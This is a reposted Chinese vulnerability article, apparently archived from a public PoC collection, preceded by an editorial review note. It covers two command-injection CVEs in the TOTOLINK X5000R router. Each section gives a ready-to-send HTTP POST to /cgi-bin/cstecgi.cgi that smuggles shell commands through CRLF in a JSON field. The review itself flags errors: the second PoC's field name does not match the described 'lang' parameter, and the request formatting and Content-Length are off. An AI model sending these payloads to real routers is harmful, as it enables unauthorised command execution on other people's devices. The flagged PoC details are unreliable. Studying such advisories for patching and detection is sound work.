




# TOTOLink X5000R 远程命令执行 附 POC

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：TOTOLINK X5000R
- 本文讨论：CVE-2023-39618 setTracerouteCfg、39617 setLanguageCfg
- 版本、权限与配置前提：前者B20210419；后者两份EasyMesh固件；认证未说明
- 资料类型：双漏洞PoC转载；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 39617简介lang参数但PoC仍command参数，疑复制前一请求未改
- 两请求头体无空行，Content-Length硬编码；元数据只39618
- 无安全固件建议
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- lang/command准确映射、认证状态及固定版本待研究原文核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/tlaqoacpzx0OUMMjd9eauQ)

_**CVE-2023-39618 远程命令执行**_

_**漏洞描述**_  

TOTOLINK X5000R B20210419 被发现包含通过 setTracerouteCfg 接口的远程代码执行（RCE）漏洞。

_**影响版本**_

```
X5000R_Firmware    B20210419（transition）

```

_**漏洞利用**_

POC

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: xxx.xxx.xxx
Content-Length: 86
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://xxx.xxx.xxx
Referer: http://xxx.xxx.xxx/login.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
{"command":"\r\n pwd > /web/gxh_hrp.txt \r\n","num":"2","topicurl":"setTracerouteCfg"}

```

查看命令执行结果



_**参考链接**_

```
https://nvd.nist.gov/vuln/detail/CVE-2023-39618
https://sedate-class-393.notion.site/X5000R_setTracerouteCfg-3567fd9f93d84afab0d81cd8c063f9a1
https://www.totolink.net/data/upload/20220412/fe7937cc79ddaca13b8c7e49ee1c2860.rar

```

_**CVE-2023-39617 远程命令执行**_

_**漏洞描述**_  

```
TOTOLINK X5000R_V9.1.0cu.2089_B20211224

```

```
TOTOLINK X5000R_V9.1.0cu.2350_B20230313

```

被发现通过 setLanguageCfg 函数中的 lang 参数包含远程代码执行（RCE）漏洞。  

_**影响版本**_

```
X5000R_EasyMesh_Firmware    V9.1.0cu.2089_B20211224
X5000R_EasyMesh_Firmware    V9.1.0cu.2350_B20230313

```

_**漏洞利用**_

POC

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: xxx.xxx.xxx
Content-Length: 89
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://xxx.xxx.xxx
Referer: http://xxx.xxx.xxx/login.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
{"command":"1.2.3.4 \r\n ls>/web/gxh_hrp.txt \r\n","num":"2","topicurl":"setLanguageCfg"}

```



查看命令执行结果





_**参考链接**_  

```
https://nvd.nist.gov/vuln/detail/CVE-2023-39617
https://sedate-class-393.notion.site/X5000R_setLanguageCfg-ee7eb0d4cd5d43e9983296200371eff1
https://www.totolink.net/data/upload/20220412/a8e1a07b9ac5a55d013f6978204fd83e.rar
https://www.totolink.net/data/upload/20230330/32b35a2a2ede3a948f8c5df15ac2631e.rar

```

**仅供学习交流，勿用作违法犯罪**


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
